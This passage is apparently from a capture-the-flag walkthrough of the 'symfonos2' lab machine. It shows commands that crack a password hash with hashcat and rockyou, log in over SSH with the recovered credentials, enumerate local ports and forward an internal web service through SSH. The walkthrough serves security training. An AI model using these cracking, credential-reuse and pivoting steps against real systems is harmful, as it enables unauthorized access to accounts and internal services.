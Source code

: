 ```bash
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz > wordlist.txt
root@kali:~$ hashcat -a 0 -m 1800 systemHashes.txt wordlist.txt
...
$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:sergioteamo
...
```

### Login via SSH
Later I log in to the ssh service with the username **aeolus** and tha password **sergioteamo**.

listing the local services I realize that other services are running locally, port 8080 is possibly a web server.

```bash
root@kali:~$ ssh aeolus@192.168.179.136
aeolus@192.168.179.136's password: 
aeolus@symfonos2:~$ whoami
aeolus
aeolus@symfonos2:~$ uname -a
Linux symfonos2 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64 GNU/Linux
aeolus@symfonos2:~$ ss -antl
State       Recv-Q Send-Q                Local Address:Port                       Peer Address:Port
LISTEN      0      80                        127.0.0.1:3306                                  *:* 
LISTEN      0      50                                *:139                                   *:* 
LISTEN      0      128                       127.0.0.1:8080                                  *:* 
LISTEN      0      32                                *:21                                    *:* 
LISTEN      0      128                               *:22                                    *:* 
LISTEN      0      20                        127.0.0.1:25                                    *:* 
LISTEN      0      50                                *:445                                   *:* 
LISTEN      0      50                               :::139                                  :::* 
LISTEN      0      64                               :::80                                   :::* 
LISTEN      0      128                              :::22                                   :::* 
LISTEN      0      20                              ::1:25                                   :::* 
LISTEN      0      50                               :::445                                  :::*
```

### Local Port Forwarding
To comprobe what is really running on this port I did ssh port forwarding to be able to access this service, notice that port 4444 is listening on our attacking machine. 

```bash
root@kali:~$ ssh -L 4444:127.0.0.1:8080 aeolus@192.168.179.136 -N 
aeolus@192.168.179.136's password:

root@kali:~$ ss -antl | grep 4444
LISTEN 0      128        127.0.0.1:4444      0.0.0.0:*    
LISTEN 0      128            [::1]:4444         [::]:*
```

Using the web browser I explore the service and come across a login page, I try to log in with the same credentials that I used when I logged into the ssh service.
